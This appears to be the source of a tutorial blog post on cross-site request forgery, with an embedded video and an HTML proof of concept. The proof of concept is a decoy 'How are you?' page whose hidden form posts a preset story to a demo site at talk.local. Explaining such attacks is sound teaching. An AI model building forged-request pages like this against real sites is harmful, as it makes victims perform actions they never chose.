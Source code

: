 ```yaml
---
layout: post
title: Cross-site Request Forgery
subtitle: Week 20
tags: [CSRF, exploit]
---
```


XSS is a popular, and well-known vulnerability. CSRF is less common but just as dangerous, particularly because of the lack of awareness.

<center>
<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/vRBihr41JTo" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</center>

{% highlight html linenos %}

<!doctype html>

<head>
  <title>Feels</title>
</head>

<body>
  <h1>How are you?</h1>
  <input type="textarea" />
  <!--
  notice how this text area is not a child of the form below.
  we don't care about the user's input, it is discarded.
  -->
  <form action="http://talk.local/create_story">
    <input type="hidden" name="my_story" value="i feel very small, please hold me closer..." />
    <input type="submit" />
  </form>
</body>

{% endhighlight %}
